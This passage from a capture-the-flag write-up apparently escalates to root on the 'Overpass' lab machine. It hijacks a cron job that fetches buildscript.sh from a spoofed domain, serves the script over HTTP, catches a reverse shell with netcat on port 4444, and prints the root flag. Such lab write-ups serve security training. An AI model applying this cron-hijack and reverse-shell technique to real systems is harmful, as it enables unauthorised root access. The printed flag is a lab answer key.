 ```
chmod +x buildscript.sh
```

> Now, we need to start a server, such that the domain `overpass.thm` that now resolves to our IP address is available to be reached.
> However, we need to be located in the directory right before `downloads/src`. This is because the cronjob goes into `/downloads/src/buildscript.sh`.

```shell
python3 -m http.server 80 
```

> At the same time, we open another tab, and create a listener that will listen for the reverse shell connection.
> Do that via netcat, with the same port as the one inside the `buildscript.sh`.

```
nc -nlvp 4444
```

> After a minute, we see on the server a `GET` request fetching the script.

![](./screenshots/shell.png)

> And on the listener, we see a connection.

``` shell
└─$ nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.18.5.150] from (UNKNOWN) [10.10.144.211] 33248
bash: cannot set terminal process group (1409): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
root@overpass-prod:~# 

```

> We are inside as the root user, and we see the flag.

###### Escalate your privileges and get the flag in root.txt : `thm{7f336f8c359dbac18d54fdd64ea753bb}`

---

#### Note
